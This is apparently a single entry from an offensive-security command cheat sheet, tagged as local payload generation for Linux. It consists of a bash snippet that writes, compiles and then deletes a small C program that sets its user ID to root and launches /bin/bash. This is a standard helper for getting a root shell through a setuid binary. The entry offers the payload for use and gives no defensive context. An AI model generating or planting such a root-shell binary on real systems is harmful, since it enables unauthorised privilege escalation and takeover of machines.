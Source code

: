 # C
% c, shell

## generate shell bash bin
#platform/linux #target/local  #cat/CODE/SAMPLE #cat/ATTACK/GENERATE_PAYLOAD 

```bash
echo 'int main(void){setreuid(0,0); system("/bin/bash"); return 0;}' > pwn.c;
gcc pwn.c -o <filename|shell>;
rm pwn.c
```
